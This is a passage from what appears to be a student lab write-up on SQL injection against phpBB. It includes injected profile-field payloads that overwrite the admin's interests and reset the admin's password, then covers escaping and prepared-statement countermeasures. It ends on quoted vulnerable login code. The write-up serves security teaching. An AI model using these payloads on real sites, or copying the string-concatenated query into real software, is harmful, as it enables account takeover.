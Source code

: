 To demonstrate it, we login as `bob`.

Then we use following input as interests to update **admin**'s interests without knowing his password:
```
get pwned' where username='admin';#
```
Then the SQL statement will look like this:
```SQL
UPDATE table SET user_interests = 'get pwned' where username='admin';#'WHERE user_id=4;
```
Note that string after `#` are treated as comments, so executing this SQL will actually update **admin**'s interests to _get pwned_.

Similarly, we fill our interests with following content:
```
get pwned', user_password=md5(123456) where username='admin';#
```
Then `admin`'s password will be changed to 123456, then we are able to login as `admin`

### Task 3: Countermeasures

#### Task 3.1: Escaping Special Characters using `magic_quotes_gpc`
We remember we have set `magic_quotes_gpc = Off` before we start our Lab. Now to study the effect of this option, we turn it back on. Then we find that all previous attacks will no longer work. Also, filling (`'`) in profile will no longer trigger errors and the profile can be updated with (`'`) in it.

#### Task 3.2: Escaping Special Characters using `addslashes()`
After recovering the original phpBB code in ``common.php``, we see how it works:
- If `magic_quotes_gpc` is turned on, all `'` will be turned into `\'` automatically.
- If `magic_quotes_gpc` is turned off, the code will do the work. It will apply `addslashes()` to all requested values to make sure all quotes are escaped.

By doing this, it will prevent SQL injection attacks.

#### Task 3.3: Escaping Special Characters using `mysql_real_escape_string`
We replace all `addslashes()` in `common.php` with that `AND FALSE` deleted. And we turn `magic_quotes_gpc` off. Then test again we can find that all previous SQL injection attacks will not work.

#### Task 3.4: Prepared Statement
We fix SQL injection in `login.php` as an example, others are very similar.

The vulnerable part of the code is:
```PHP
$sql_checkpasswd = "SELECT user_id, username, user_password, user_active, user_level, user_login_tries, user_last_login_try
        FROM " . USERS_TABLE . "
        WHERE username = '" . $username . "'" . " AND user_password = '" . md5($password). "'";
        if ( !($result_checkpasswd = $db->sql_query($sql_checkpasswd)) ) {
            ...
        }
```
